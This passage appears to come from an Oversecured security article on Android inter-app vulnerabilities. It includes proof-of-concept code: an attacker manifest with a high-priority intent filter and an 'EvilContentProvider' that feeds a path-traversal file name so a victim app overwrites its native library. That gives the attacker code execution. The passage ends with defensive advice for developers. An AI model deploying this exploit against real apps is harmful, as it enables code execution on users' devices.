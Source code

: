 ```
        }
    }
    return "temp";
}
// the copy method is the same as in the previous example


```

The attacker can pass a name including path-traversal to the `getFileName(...)` method using their own ContentProvider.

`AndroidManifest.xml` file:

```
<activity android:>
    <intent-filter android:priority="999">
        <action android: />
        <category android: />
        <data android:mimeType="*/*" />
        <data android:mimeType="image/*" />
    </intent-filter>
</activity>
<provider android:></provider>


```

`EvilContentProvider.java` file

```
public Cursor query(Uri uri, String[] projection, String selection, String[] selectionArgs, String sortOrder) {
    MatrixCursor matrixCursor = new MatrixCursor(new String[]{"_display_name"});
    matrixCursor.addRow(new Object[]{"../lib-main/lib.so"});
    return matrixCursor;
}
public ParcelFileDescriptor openFile(Uri uri, String mode) throws FileNotFoundException {
    return ParcelFileDescriptor.open(new File("/data/data/com.attacker/fakelib.so"), ParcelFileDescriptor.MODE_READ_ONLY);
}


```

Thus the attacker can get beyond the limits of `/data/data/com.victim/cache/` and write the file to `lib.so` in the `/data/data/com.victim/lib-main/lib.so` directory, leading to arbitrary code execution in the victim’s context (on condition, naturally, that the victim loads a native library from that path).

Tips for developers
-------------------

You need to understand what the particular functions of your app are for, and whether or not you intend to make them available to other apps. If the answer is no, you need to use only explicit intents to launch activities and services, register broadcast receivers and send broadcasts. If your app does still need to interact with other apps, you need to be clear on whether that means absolutely any apps or some restricted set of them. For a restricted set (which will usually include apps from some particular ecosystem, such as Google Maps and Google Books) you should check the package signature and/or name; for an unrestricted set, you should validate absolutely all data received from them. At Oversecured, we frequently encounter incorrectly designed apps with millions of downloads, suffering from a vast range of vulnerabilities. So it’s important to pay attention to this point at the architecture planning stage for your app and for each new component.
